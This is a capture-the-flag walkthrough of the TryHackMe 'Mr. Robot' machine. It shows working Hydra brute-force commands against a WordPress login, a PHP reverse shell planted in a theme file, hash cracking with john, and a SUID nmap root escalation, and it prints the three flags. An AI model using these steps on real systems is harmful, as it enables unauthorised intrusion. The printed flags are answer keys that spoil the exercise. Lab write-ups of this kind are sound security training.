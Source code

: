 ```yaml
---
title: Mr. Robot
date: 2022-04-29 17:00:00 +500
categories: [THM, medium machines]
tags: [bruteforce,hash]    # TAG names should always be lowercase
---
```




## Hack the machine

### What is key 1?

As usual, I'll start with the Nmap scan:

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

we got two web servers, one with HTTP protocol and the other with HTTPS, looking into them they're the same, a page with the Mr. Robot series theme, but nothing really to look into.

let's perform a gobuster scan, to see if there's a hidden directory

```terminal
gobuster dir -u 10.10.133.98 -w /usr/share/dirb/wordlists/common.txt
```

```
/0                    (Status: 301) [Size: 0] [--> http://10.10.133.98/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.133.98/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.133.98/audio/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.133.98/blog/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.133.98/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.133.98/image/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.133.98/Image/]
/images               (Status: 301) [Size: 235] [--> http://10.10.133.98/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 231] [--> http://10.10.133.98/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.133.98/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.133.98/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.133.98/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.133.98/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.133.98/wp-content/]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.133.98/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-config            (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2606]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.133.98/wp-login.php?action=register]      
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc               (Status: 405) [Size: 42]
```

quite an output we got, with a couple of interesting things, now we know the site is built on WordPress, and the robots file was readable, and we now have two more file directories

* fsocity.dic
    
    which is a dictionary that we may need to use for later brute-forcing

* key-1-of-3.txt

    which is the first flag
    
> 073403c8a58a1f80d943455fb30724b9

### What is key 2?

now with that dictionary, I'll try to brute force the WordPress login page, to do that I'll use hydra.

this page has a major flaw because it tells us when the username is invalid, so we will brute force the username first until we found a valid username and then try with the password.

the syntax will be:
```
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* USER

    In this case, we will brute force the username so this would be the dictionary

* Password

    This can be anything it doesn't matter

* Login Page

    this is the directory of the login page, in this case '/wp-login.php'

* Request body

    You can get this by opening the console of your browser, and in the network tab viewing the POST request to wp-login.php after entering anything and pressing login, in this case, I put in both username and password and this is the request body 'log=a&pwd=a&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1'.

    But we need two change the part where the username and password go through the request so hydra will know what to change. In the user put ^USER^ and the password ^PWD^.

    log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1


* Error Message

    this is the message we got 'Invalid username.'


the final command would be this:

```terminal
hydra -L fsocity.dic -p 'a' 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:Invalid username."
```

and we got
```
[80][http-post-form] host: 10.10.133.98   login: Elliot   password: a
```

now let's try to get the password for Elliot, we just need to change the user, password, and error message of the hydra command. And the flags also, if -l or -p are in lowercase it means that it's just one, and if they are in uppercase means that are multiple of: like a dictionary file.

```terminal
hydra -l Elliot -P fsocity.dic 10.10.133.98 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.133.98%2Fwp-admin%2F&testcookie=1:The password you entered for the username Elliot is incorrect." 
```

and the password is 'ER28-0652'

looking around there was not much around, so since we are an admin user I'll try to change one page to be a reverse shell, to do this I go to appearance, then editor, and you can change whatever .php file you'd like, in this case, I'll change the 404 page.
I'll use the pentest monkey reverse shell, set up a listener, and go to /wordpress/wp-content/themes/twentyfifteen/404.php, since the page we changed is from the theme twentyfiftteen.

and we got a shell!

we found a user called robot, in his home directory have two files, the second key, which we don't have permission to read, and a password.raw-md5 file which apparently has the credentials for this user, with the password encrypted, let's try to decrypt it.

the title of the file was very descriptive and tells us that is md5 raw encrypted, so I'll use hashcat with the fsocity.dic to decrypt it.

so it ended up not working, so I used john

```terminal
john --wordlist=fsocity.dic --format=Raw-MD5 encryptedpass
```

the password being: 'abcdefghijklmnopqrstuvwxyz'

now that we have access to the robot user, we can cat out the second key:

> 822c73956184f694993bede3eb39f959

### What is key 3?

now I guess all it's left to do is privilege escalation, I try with the tried and true sudo -l with no luck, then I search for SUID files and I saw something strange, Nmap.

In this part I went down a rabbit hole, in gtfobins I tried to follow the suid way of exploit where it said you can overwrite a file with sudo, so I tried many ways to change the /etc/shadow file to change the root user password with no luck.

The way to gain a root shell was actually quite easy 

```terminal
nmap --interactive
```

then

```
nmap> !sh
```

and we got ourselves a root shell, all it's left to do is to go read the third key in the /root directory

> 04787ddef27c3dee1ee161b21670b4e4